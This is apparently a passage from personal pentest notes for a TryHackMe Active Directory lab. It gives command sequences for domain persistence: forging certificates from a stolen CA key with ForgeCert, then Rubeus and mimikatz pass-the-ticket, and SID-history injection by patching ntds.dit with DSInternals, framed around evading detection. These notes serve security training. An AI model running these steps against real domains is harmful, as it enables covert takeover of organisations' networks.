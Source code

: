 ```powershell
# We should have a file named XXX-CA.pfx -> mimikatz export it with a default password "mimikatz"

# Generating our own Certificates -> with .pfx file previously exported
https://github.com/GhostPack/ForgeCert
C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
# Subject does not really matter, SubjectAltName is the User Principal Name (UPN) of the account we want to impersonate (it has to be a legitimate user.)
# Now with Rubeus we request a TGT using the certificate to verify that the certificate is trusted
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<CERT_FILE> /password:<CERT_PASS> /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:<DC_IP>
# Then we load the TGT and authenticate to DC:
mimikatz # kerberos::ptt administrator.kirbi
dir \\DC.sub.domain.com\c$\
```
{% endcode %}

## SID History

SID history is useful for migrations when we want to keep using an account with the original domain that will be cloned.

* We normally require Domain Admin privileges or the equivalent thereof to perform this attack.
* When the account creates a logon event, the SIDs associated with the account are added to the user's token, which then determines the privileges associated with the account. This includes group SIDs.
* We can take this attack a step further if we inject the Enterprise Admin SID since this would elevate the account's privileges to effective be Domain Admin in all domains in the forest.
* Since the SIDs are added to the user's token, privileges would be respected even if the account is not a member of the actual group. Making this a very sneaky method of persistence. We have all the permissions we need to compromise the entire domain (perhaps the entire forest), but our account can simply be a normal user account with membership only to the Domain Users group. We can up the sneakiness to another level by always using this account to alter the SID history of another account, so the initial persistence vector is not as easily discovered and remedied.

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Forging History -> first make sure our low-privileged user does not have any SIDHistory
Get-ADUser <your ad username> -properties sidhistory,memberof
# Get SID of the group we want to add to our SID History
Get-ADGroup "Domain Admins"
https://github.com/MichaelGrafnetter/DSInternals
# Use DSInternals to add SID history and directly patch the ntds.dit file, the AD database where all information is stored
PS C:\Users\Administrator.ZA>Stop-Service -Name ntds -force 
PS C:\Users\Administrator.ZA> Add-ADDBSidHistory -SamAccountName 'username of our low-privileged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit 
PS C:\Users\Administrator.ZA>Start-Service -Name ntds  
# Now log in as the low-privileged user and check SIDHistory exists:
PS C:\> Get-ADUser <LOW-PRIV USER> -Properties sidhistory 
dir \\dc.sub.domain.com\c$
# SIDHistory attribute is protected. To remove it, you need tools such as the AD-RSAT PowerShell cmdlets.
```
{% endcode %}
